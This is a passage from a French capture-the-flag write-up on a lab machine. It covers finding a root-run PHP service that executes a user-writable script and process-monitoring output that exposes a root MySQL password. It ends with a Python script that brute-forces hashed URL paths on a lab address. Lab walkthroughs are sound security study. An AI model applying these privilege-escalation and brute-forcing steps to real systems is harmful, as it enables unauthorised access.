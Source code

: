 ```console
        -Waiting on devs and mechanical eng. to finalize programs (no way for QA to test this one! Yikes!)
-Verify James Bond is MI6. They may be on to us.
        -Security says they are trying to infltrate our servers, so they pushed out a new password policy. 
        -Head of Security said this policy will solve all security related problems after I confronted him about it.
-Make a habit of deleting pointless emails.
-Migrate needed desktop items to Linux server.
```

Donc il semble que le `phpcli` qui écoute sur le port 8191 et qu'on peut voir tourner en tant que root dans les process possède un dossier caché contenant un script qui va exécuter le fichier `/home/max/aView.py`.

Avec le compte de _Jenny_ (obtenu grace aux identifiants qu'elle a laissés dans le fichier zip) on peut éditer le script en question.

```console
jenny@view:~$ cat /home/max/aView.py
#!/usr/bin/python
# 
# executed from php app add final wrapper/scirpt here
print "waiting on engineers to tweak final code"
jenny@view:~$ id
uid=1007(jenny) gid=1007(jenny) groups=1007(jenny)
jenny@view:~$ ls -al /home/max/aView.py
-rwxrwx--- 1 max jenny 124 Oct 26  2019 /home/max/aView.py
jenny@view:~$ ps aux | grep php
root      1042  0.2  0.7 273112  7112 ?        S    May06   4:12 php -S 0.0.0.0:8191
jenny     3917  0.0  0.0  13136   988 pts/0    S+   19:07   0:00 grep --color=auto php
```

Toutefois, ce script n'a pas la permission `o+x`. Faut-il obtenir le compte `max` aussi ? J'ai laissé tourné `pspy` qui a révélé l'exécution de différents scripts, mais rien qui ne m'avance davantage.

```
2023/05/07 19:40:00 CMD: UID=0    PID=1025   | /bin/bash /root/ctf-scripts/svc.sh 
2023/05/07 19:40:00 CMD: UID=0    PID=10106  | phantomjs /opt/casperjs/bin/bootstrap.js --casper-path=/opt/casperjs --cli /root/ctf-scripts/ok.js 
2023/05/07 19:40:00 CMD: UID=0    PID=10103  | /bin/sh -c /opt/casperjs/bin/casperjs /root/ctf-scripts/ok.js 
2023/05/07 19:40:01 CMD: UID=0    PID=10505  | /bin/bash /root/ctf-scripts/sql-script.sh 
2023/05/07 19:40:01 CMD: UID=0    PID=10504  | /bin/bash /root/ctf-scripts/defense.sh 
2023/05/07 19:41:01 CMD: UID=0    PID=10524  | mysql -h localhost -u root -ptoor sentrifugo
```

Finalement, j'ai écrit le script suivant pour bruteforcer les URLs selon l'algorithme de _Scarpine_ :

```python
import string
from hashlib import sha1

import requests

session = requests.Session()

for letter in string.ascii_lowercase:
    for int1 in range(10):
        for int2 in range(10):
            word = letter + "view" + str(int1) + str(int2) + "\n"
            h = sha1(word.encode()).hexdigest()
            response = session.get("http://192.168.56.193:8191/" + h + "/")
            if len(response.text) != 167:
                print(len(response.text), word.strip(), h)
```